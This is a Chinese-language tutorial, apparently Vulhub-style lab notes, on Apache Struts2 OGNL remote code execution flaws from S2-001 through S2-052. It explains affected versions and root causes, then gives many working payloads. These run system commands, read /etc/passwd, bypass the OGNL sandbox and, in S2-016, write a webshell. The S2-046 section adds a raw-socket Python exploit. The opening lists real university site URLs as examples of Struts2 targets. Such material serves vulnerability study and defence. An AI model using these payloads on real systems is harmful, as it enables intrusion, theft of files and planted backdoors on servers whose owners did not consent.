



# 0x01	Strust2简介

## 一、Strust2框架识别

通过网页url后缀来进行判断，如`.do`或者`.action`，如下所示：

```xml
http://fs.seu.edu.cn/member/login.do
https://www.nxks.nx.edu.cn/admin/Login.do

https://xz.chsi.com.cn/survey/index.action
http://jxjyzk.suda.edu.cn/sso/login_loginPage.action
```

## 二、OGNL表达式

OGNL（Object-Graph Navigation Language 对象-图形导航语言）表达式

# S2-001 远程代码执行漏洞

## 原理


参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html


该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式` %{value} `进行解析，然后重新填充到对应的表单数据中。例如**注册或登录页面**，提交失败后端一般会默认返回之前提交的数据，由于后端使用 `%{value}` 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

## 环境

执行以下命令启动s2-001测试环境

```plain
docker-compose build
docker-compose up -d
```

## POC && EXP

获取tomcat执行路径：

```plain
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```plain
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```plain
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```




------

# S2-005 远程代码执行漏洞

影响版本: 2.0.0 - 2.1.8.1
漏洞详情: http://struts.apache.org/docs/s2-005.html

## 原理

参考吴翰清的《白帽子讲Web安全》一书。

s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```plain
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

## 环境

执行以下命令启动s2-001测试环境

```plain
docker-compose build
docker-compose up -d
```

## POC && EXP

### 执行任意命令POC（无回显，空格用`@`代替）

```http
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36
```

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：


大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

期待大佬研究出有回显的POC。

### 执行任意命令POC（有回显，将需要执行的命令进行urlencode编码）

```http
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626
redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```


------

# S2-007 远程代码执行漏洞

影响版本: 2.0.0 - 2.2.3
漏洞详情: http://struts.apache.org/docs/s2-007.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```java
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。


因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```plain
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Exploit

[@rickgray ]() 在原文中只给了弹计算器的POC，我给出执行任意代码的EXP： 

```plain
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```


将Exp传入可以利用的输入框（age），得到命令执行结果：


------

# S2-008 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1

漏洞详情: http://struts.apache.org/docs/s2-008.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

例如在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

```plain
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

------

# S2-009 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1.1

漏洞详情: http://struts.apache.org/docs/s2-009.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理

前置阅读： 这个漏洞再次来源于s2-003、s2-005。了解该漏洞原理，需要先阅读s2-005的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

参考[Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入ognl的方法不光可能出现在这个漏洞中，也可能出现在其他java应用中。

Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

## Exploit构造

试环境是一个struts2的“功能展示”网站`Struts Showcase`，代码很多，我们的目标是去找一个接受了参数，参数类型是string的action。

先对`S2-009.war`进行解压（我用binwalk，其实直接zip就可以），可见源码都在`WEB-INF/src`目录中，我一般找ajax相关的代码，这些代码一般逻辑比较简单。

找到一个`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`：

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```


代码没有更简单了，其接受了name参数并调用setName将其赋值给私有属性`this.name`，正是符合我们的要求。然后去`WEB-INF/src/java/struts-ajax.xml`看一下URL路由：

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`，所以访问`http://your-ip:8080/ajax/example5.action`即可访问该控制器。按照原理中说到的方法，将OGNL利用代码放在name参数里，访问该URL：

```plain
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```


由于该POC没有回显，所以调用的是`touch /tmp/success`命令，查看/tmp目录发现已经成功：


黑盒情况下，这个洞也不是限制特别大。只要你在正常业务中找到传参的地方，就用该参数名可以试试。

------

# S2-012 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.13

漏洞详情: http://struts.apache.org/docs/s2-012.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 `${param_name} `作为重定向变量，例如：


```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## Exp

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符（为什么？）。

```plain
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：


------

# S2-013/S2-014 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.14.1

漏洞详情:

- http://struts.apache.org/docs/s2-013.html
- http://struts.apache.org/docs/s2-014.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理与测试

Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

`<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。

任意命令执行POC：

```plain
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

如：`http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`


S2-014 是对 S2-013 修复的加强，在 S2-013 修复的代码中忽略了 ${ognl_exp} OGNL 表达式执行的方式，因此 S2-014 是对其的补丁加强。

```plain
http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```

------

# S2-015 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.14.2

漏洞详情:

- http://struts.apache.org/docs/s2-015.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理与测试

漏洞产生于配置了 Action 通配符` *`，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的  setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```plain
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```plain
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

直接回显：



除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```


这里配置了 `<param name="errorMessage">${message}</param>`，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。


------

# S2-016 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.15

漏洞详情:

- http://struts.apache.org/docs/s2-016.html
- http://www.freebuf.com/articles/web/25337.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 漏洞复现

在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

所以，访问`http://your-ip:8080/index.action?redirect:OGNL表达式`即可执行OGNL表达式。

执行命令：

```plain
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

获取web目录：

```plain
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```

写入webshell：

```plain
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
```

执行结果：


------

# S2-032 远程代码执行漏洞（CVE-2016-3081）


影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-032
- https://www.cnblogs.com/mrchang/p/6501428.html

## 漏洞环境

执行如下命令启动struts2 2.3.28：

```plain
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到默认页面。

## 漏洞复现

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。

直接请求如下URL，即可执行`id`命令：

```plain
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```


------

# S2-045 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

- http://struts.apache.org/docs/s2-045.html
- https://blog.csdn.net/u011721501/article/details/60768657
- https://paper.seebug.org/247/

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```plain
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```plain
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```


------

# S2-046 远程代码执行漏洞（CVE-2017-5638）


影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-046
- https://xz.aliyun.com/t/221


## 漏洞环境

执行如下命令启动struts2 2.3.30：

```plain
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```


`233*233`已成功执行：


------

# S2-048 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.32

漏洞详情:

- http://struts.apache.org/docs/s2-048.html
- http://bobao.360.cn/learning/detail/4078.html
- http://xxlegend.com/2017/07/08/S2-048 动态分析/


## 测试环境搭建

```plain
docker-compose up -d
```

## 漏洞复现

原理详见参考文档，这里只说一下当前环境。

这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip:8080/showcase/`即可查看到struts2的测试页面。

访问Integration/Struts 1 Integration：


触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：


借用S2-045的沙盒绕过方法，我改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```plain
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```


当然，你也可以直接用s2-045的POC（你需要在Burp下进行测试）：

```plain
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

------

# S2-052 远程代码执行漏洞


影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情:

- http://struts.apache.org/docs/s2-052.html
- https://yq.aliyun.com/articles/197926

## 测试环境搭建

```plain
docker-compose up -d
```

## 漏洞说明

Struts2-Rest-Plugin是让Struts2能够实现Restful API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：

| 扩展名 | Content-Type                      | 解析方法               |
| ------ | --------------------------------- | ---------------------- |
| xml    | application/xml                   | xstream                |
| json   | application/json                  | jsonlib或jackson(可选) |
| xhtml  | application/xhtml+xml             | 无                     |
| 无     | application/x-www-form-urlencoded | 无                     |
| 无     | multipart/form-data               | 无                     |


